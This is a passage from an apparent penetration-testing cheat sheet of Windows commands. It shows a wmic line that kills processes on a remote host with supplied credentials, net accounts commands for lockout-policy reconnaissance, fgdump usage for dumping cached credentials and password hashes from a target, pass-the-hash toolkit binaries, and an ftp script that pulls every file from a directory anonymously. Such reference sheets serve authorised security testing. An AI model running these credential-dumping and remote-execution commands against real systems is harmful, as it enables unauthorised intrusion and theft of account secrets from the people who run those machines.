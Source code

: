     wmic /node:&lt;target&gt; /user:&lt;username&gt; /password:&lt;password&gt; process where name="&lt;name&gt;" delete

## Passwords

### Account lockout {#account_lockout}

Info on Windows accounts

    net accounts
    net accounts /domain

### fgdump

Options

-   -c \-- don\'t get cached credentials
-   -h \<target\>
-   -u \<username\>

    fgdump -c -h &lt;target&gt; -u &lt;username&gt;

### Pass-the-hash toolkit (psh-toolkit) {#pass_the_hash_toolkit_psh_toolkit}

Trend finally noticed/deleted these programs, so I don\'t have their parameters handy

-   whosthere-exe
-   genhash.exe
-   iam.exe

## Helpful hints {#helpful_hints}

### ftp

Download a file as anonymous

    ftp -A -s:ftp-script.txt &lt;host&gt;

The script

    get &lt;file&gt;
    bye

An even better script, that grabs everything in the base directory

    prompt
    mget .
    bye
